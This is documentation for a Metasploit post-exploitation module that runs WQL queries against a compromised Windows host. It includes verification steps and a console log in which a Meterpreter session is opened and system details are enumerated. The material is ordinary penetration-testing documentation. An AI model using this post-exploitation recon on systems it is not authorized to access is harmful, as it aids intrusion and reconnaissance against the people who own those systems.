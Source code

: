 ## Introduction

This module will execute a WQL query via Powershell's `Get-WmiObject`. A WQL query can be
explicity defined with the WQL and NAMESPACE options, or a hard-coded query can be used by
defining the MODULE option.

The following MODULEs are available:

OSVERSION - Returns information about the operating system,
PROCESSINFO - Returns running processes.

## Vulnerable Application

  This should work on version of Windows with Powershell that support `Get-WmiObject`.

## Verification Steps

  1. Start `msfconsole`
  2. Get Meterpreter session
  3. `use post/windows/recon/wql_query`
  4. `run`
  5. **Verify** that operating system version info is returned
  6. `set MODULE ""`
  7. `set WQL select * from win32_operatingsystem`
  8. `run`
  9. **Verify** that more complete data comes back

## Options

  **MODULE**

  This is any of the predefined modules that are pre-baked in.

  **NAMESPACE**

  This will set the namespace to run any arbitrary WQL against.

  **WQL**

  An arbitrary WQL statement to run on the system.

## Proof of Concept

```

msf5 exploit(multi/handler) >
[*] https://192.168.170.1:8443 handling request from 192.168.170.128; (UUID: w43pepbp) Staging x86 payload (181337 bytes) ...
[*] Meterpreter session 1 opened (192.168.170.1:8443 -> 192.168.170.128:50319) at 2019-09-11 19:01:40 -0500
msf5 exploit(multi/handler) > use post/windows/recon/wql_query
msf5 post(windows/recon/wql_query) > show options

Module options (post/windows/recon/wql_query):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   MODULE     OSVERSION        no        Module query to run
   NAMESPACE                   no        Namespace to run the WQL query against
   RHOST      localhost        yes       Target address range
   SESSION                     yes       The session to run this module on.
   SMBDomain                   no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   TIMEOUT    10               yes       Timeout for WMI command in seconds
   WQL                         no        WQL query to run

msf5 post(windows/recon/wql_query) > set session 1
session => 1
msf5 post(windows/recon/wql_query) > run

[*] Executing WQL
[*] WQL result:

Version    BuildNumber
-------    -----------
10.0.17763 17763



[*] Post module execution completed
msf5 post(windows/recon/wql_query) > set module ""
module =>
msf5 post(windows/recon/wql_query) > set WQL select * from win32_operatingsystem
WQL => select * from win32_operatingsystem
msf5 post(windows/recon/wql_query) > run

[*] Executing WQL
[*] WQL result:


SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 17763
RegisteredUser  : chiggins
SerialNumber    : XXXXX-XXXXX-XXXXX-XXXXX
Version         : 10.0.17763

[*] Post module execution completed
```

